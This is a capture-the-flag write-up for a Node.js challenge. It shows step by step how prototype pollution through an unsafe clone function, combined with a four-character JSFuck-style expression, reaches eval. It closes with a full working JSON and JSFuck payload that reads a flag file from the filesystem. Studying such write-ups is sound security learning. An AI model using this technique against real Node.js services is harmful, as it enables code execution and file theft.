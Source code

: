 # pp4

## Challenge Overview

The challenge involved a Node.js script running on the organizer's infra in a container which also housed a file containing the flag.

The script did the following things:

1. Accepted a JSON string, which it parsed with JSON.parse and then it deep-cloned it using a homegrown clone function
2. Accepted JavaScript code which then it executed in the same script using `eval`. The code could only use 4 distinct characters.

## Our solution

After viewing the source code of the script we quickly noticed that the flaw lies in the `clone` function.

```js
const clone = (target, result = {}) => {
  for (const [key, value] of Object.entries(target)) {
    if (value && typeof value == "object") {
      if (!(key in result)) result[key] = {};
      clone(value, result[key]);
    } else {
      result[key] = value;
    }
  }
  return result;
};
```

It does not check the `key` for `"prototype"` or `"__proto__"`. This means it is vulnerable to [prototype pollution](https://learn.snyk.io/lesson/prototype-pollution/).

And the other part of the script reminded us of [JSFuck](https://jsfuck.com/). The only problem is that JSFuck uses 6 characters (two more than were allowed in the task). That being said the JSFuck homepage includes a handy cheatsheet of strings it uses to encode different things:

- `false`       =>  `![]`
- `true`        =>  `!![]`
- `undefined`   =>  `[][[]]`
- `NaN`         =>  `+[![]]`
- `0`           =>  `+[]`
- `1`           =>  `+!+[]`
- `2`           =>  `!+[]+!+[]`
- `10`          =>  `[+!+[]]+[+[]]`
- `Array`       =>  `[]`
- `Number`      =>  `+[]`
- `String`      =>  `[]+[]`
- `Boolean`     =>  `![]`
- `Function`    =>  `[]["filter"]`
- `eval`        =>  `[]["filter"]["constructor"]( CODE )()`
- `window`      =>  `[]["filter"]["constructor"]("return this")()`

As we can see not all of them use the full 6 characters - some of them only two or four. This means we should somehow combine this subset of a subset to execute something useful.

We knew that we would somehow need to execute normal JS code in there, so we needed the `eval` primitive. It uses exactly 4 different characters (`[`, `]`, `(`, `)`), and from that we can eliminate all the primitives that use `!` or `+`. This leaves us with:

- `undefined`   =>  `[][[]]`
- `Array`       =>  `[]`
- `Function`    =>  `[]["filter"]`
- `eval`        =>  `[]["filter"]["constructor"]( CODE )()`
- `window`      =>  `[]["filter"]["constructor"]("return this")()`

That means we need to somehow represent three strings: `"filter"`, `"constructor"` and the code that dumps the flag. We will provide those using the prototype pollution.


We modified the script a little bit to serve as a playground to test our solution. This is how we got our first required string.

```js
(async () => {
// Step 1: Prototype Pollution

    const json = `{
        "__proto__": {
            "undefined": "filter"
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const filterStr = `[][${undef}]`;
   const code = `${filterStr}`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

To achieve that we polluted the `Object` prototype at with the key of `"undefined"` and indexed an array with `undefined`. `Array` extends `Object` and `undefined` got converted to a string, so the `filter` string was retrieved.

 We used javascript's template literal to "compose" the final code not to get lost in the mess of multiple characters `[`, `]` right next to each other.


We then proceeded to obtaining the `"constructor"` string. 

```js
(async () => {
// Step 1: Prototype Pollution

    const json = `{
        "__proto__": {
            "undefined": "filter",
            "filter": "constructor"
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const filterStr = `[][${undef}]`;
   const constructorStr = `[][${filterStr}]`;
   const code = `${constructorStr}`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

We decided to add another key - `"filter"` to the prototype and then index the array with it (since we have it from the previous step).

This program yielded an unexpected result:

```
> node pp4.js
{}
result [Function: filter]
```

After some experimentation we noticed that this does not happen for other strings than `"filter"`. Turns out this is due to the fact that [`Array.prototype.filter()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter) exists and it overrides the field we polluted. 

Fortunately we had another string - our code that could serve as a key. Then in the key indexed by the code we added another object with the same indexes - but the values were `"filter"` and `"constructor"`.  We added a placeholder for the code we were going to execute:


```js
(async () => {
// Step 1: Prototype Pollution

    const payload = `console.log("hello")`;
    const json = `{
        "__proto__": {
            "undefined": ${JSON.stringify(payload)},
            ${JSON.stringify(payload)}: {
                ${JSON.stringify(payload)}: "constructor",
                "undefined": "filter"
            }
            
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const codeStr = `[][${undef}]`;
   const filterStr = `[][${codeStr}][${undef}]`
   const constructorStr  = `[][${codeStr}][${codeStr}]`
   const code = `[][${filterStr}][${constructorStr}](${codeStr})()`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

This is the JSFuck part of the challenge done. The final resulting JSFuck was:

```js
[][[][[][[][[]]]][[][[]]]][[][[][[][[]]]][[][[][[]]]]]([][[][[]]])()
```

Now came the part of writing the payload. Initially we started with this code:

```js
const fs = require('fs');
console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))
```

Unfortunately it broke with:

```
    const fs = require('fs');
               ^

ReferenceError: require is not defined
```

Apparently this happens in nodejs when writing code as a string and passing it to the `Function` prototype. Fortunately we found [this stackoverflow post](https://stackoverflow.com/a/43492031) which remediated the problem.

Final payload:

```js
const fs = global.process.mainModule.constructor._load('fs');
    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))
```

The only thing left was to take the final JSON and JSFuck and send it to the server over `nc`. This is roughly what we sent:

JSON:

```json
{
  "__proto__": {
    "undefined": "    const fs = global.process.mainModule.constructor._load('fs');    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))    ",
    "    const fs = global.process.mainModule.constructor._load('fs');    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))    ": {
      "    const fs = global.process.mainModule.constructor._load('fs');    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))    ": "constructor",
      "undefined": "filter"
    }
  }
}
```

JSFuck:

```js
[][[][[][[][[]]]][[][[]]]][[][[][[][[]]]][[][[][[]]]]]([][[][[]]])()
```
